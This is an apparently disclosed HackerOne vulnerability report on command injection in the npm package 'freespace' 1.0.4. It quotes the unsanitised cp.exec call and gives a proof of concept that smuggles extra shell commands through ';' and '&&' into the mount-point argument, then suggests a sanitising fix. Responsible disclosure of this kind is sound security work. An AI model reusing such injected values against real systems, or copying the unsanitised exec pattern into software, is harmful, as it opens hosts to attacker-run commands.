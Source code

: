 # [freespace] Command Injection due to Lack of Sanitization

## Report Details
- **Report ID**: 951249
- **URL**: https://hackerone.com/reports/951249
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-04T20:43:52.025Z
- **Disclosed**: 2020-10-14T15:50:41.478Z

## Reporter
- **Username**: ansuj7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report `Command Injection` in the `freespace` module.
It allows an attacker to inject and execute shell commands on Unix based systems.

# Module

**module name:** freespace
**version:** 1.0.4
**npm page:** `https://www.npmjs.com/package/freespace`

## Module Description

A library that tells you how much free disk space you have.  
- Works on all platform.
- No dependencies and no native libraries.

## Module Stats

[26] weekly downloads

# Vulnerability

## Vulnerability Description

The library offers a function that allows a developer to pass in a disk-label (Windows) or a mount-point (Linux) and returns space details about the same. However, due to lack of proper sanitization of the parameter to that function, injection of multiple commands using delimiters such as `;` and `&&` will cause the shell to interpret and execute each command between those characters.  
This code is vulnerable on the Unix platform and not on Windows. The Windows variant also directly uses the input without sanitization, however, uses only the first character of the input parameter, which prevents injection.

This is the vulnerable code in `index.js` of the library:
```javascript
exports.check = function(driveOrMount, callback) {
    return new Promise(function(resolve, reject) {
        let cb = function(err, stdout, stderr) { ... };
        if (!driveOrMountRegex.test(driveOrMount)) {
            let err = new Error(DRIVE_STRING_ERROR);
            if (callback) callback(err);
            return reject(err);
        }
        if (process.platform === 'win32') {
            driveOrMount = driveOrMount.charAt(0).toLowerCase();
            cp.exec(`fsutil volume diskfree ${driveOrMount}:`, {}, cb);
        } else {
            cp.exec(`df -P ${driveOrMount} | awk 'NR==2 {print $4}'`, {}, cb);  // vulnerability - 'driveOrMount' is being used directly without sanitization
        }
    }).then(function(bytes) { return bytes })
        .catch(function(err) { return Promise.reject(err) });
};
```


## Steps To Reproduce:

- Create test directory: `mkdir freespace-poc` and `cd` into it
- Install the library with NPM:  `npm install freespace`
- Create an output directory, I am using `/tmp` - which is initially empty
- Create a file `test.js` containing the following:

```javascript
const freespace = require('freespace');

freespace.check('/ ; touch /tmp/semicolon_file')
        .then(bytes => {
                console.log(bytes);
        });

freespace.check('/ && touch /tmp/ampersand_file')
        .then(bytes => {
                console.log(bytes);
        });
```
- Run the code: `node test.js`
- List the output directory - in my case, `ls /tmp`
- You will see that the files `semicolon_file` and `ampersand_file` have been created, indicating that the commands were injected and executed

{F936538}

## Patch

All parameters should be sanitized before being sent as shell command arguments. The developer has implemented a REGEX check before shell command calls in the line `if (!driveOrMountRegex.test(driveOrMount))` which does not cover these special cases. This REGEX can be used to whitelist/blacklist characters and either produce an error or strip them out and continue execution. 

## Supporting Material/References:

- Operating System Version: Ubuntu 18.04.4 LTS 
- NodeJS Version: v14.7.0
- NPM Version: 6.14.7

# Wrap up

- I contacted the maintainer to let them know: N 
- I opened an issue in the related repository: N

Thank you for your time.

## Impact

Command Injection can lead to information gathering, system enumeration and further execution of scripts/binaries.

## Attachments
- freespace-poc.PNG
